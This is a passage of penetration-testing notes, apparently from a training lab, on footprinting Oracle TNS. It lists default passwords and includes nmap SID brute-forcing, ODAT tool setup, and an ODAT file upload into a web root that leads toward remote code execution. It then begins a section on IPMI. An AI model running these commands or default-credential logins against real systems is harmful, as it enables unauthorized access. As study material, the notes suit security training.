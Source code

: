 ### port used
- Port 1521/tcp

### Dangerous Settings
- Oracle 9: Default password is "CHANGE_ON_INSTALL."
- Oracle 10: No default password is set.
- Oracle DBSNMP service often uses default password "dbsnmp."
- the finger service enabled can pose security risks and make Oracle services vulnerable to unauthorized access.

### Footprinting the Service
- namp
```bash
sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute
```

- Oracle-Tools-setup.sh
```bash
#!/bin/bash

sudo apt-get install libaio1 python3-dev alien python3-pip -y
git clone https://github.com/quentinhardy/odat.git
cd odat/
git submodule init
git submodule update
sudo apt install oracle-instantclient-basic oracle-instantclient-devel oracle-instantclient-sqlplus -y
pip3 install cx_Oracle
sudo apt-get install python3-scapy -y
sudo pip3 install colorlog termcolor pycryptodome passlib python-libnmap
sudo pip3 install argcomplete && sudo activate-global-python-argcomplete
```
- ODAT
```bash
./odat.py all -s 10.129.204.235
```

### Service Interaction
- SQLplus
```bash
sqlplus username/pass@10.129.204.235/XE
```
- Oracle RDBMS - File Upload (RCE)
```bash
$ echo "Oracle File Upload Test" > testing.txt
$ ./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
$ curl -X GET http://10.129.204.235/testing.txt
```
## IPMI
- Intelligent Platform Management Interface (IPMI) is a set of standardized specifications for hardware-based host management systems used for system management and monitoring.
- IPMI is typically used in three ways:
  - Before the OS has booted to modify BIOS settings
  - When the host is fully powered down
  - Access to a host after a system failure
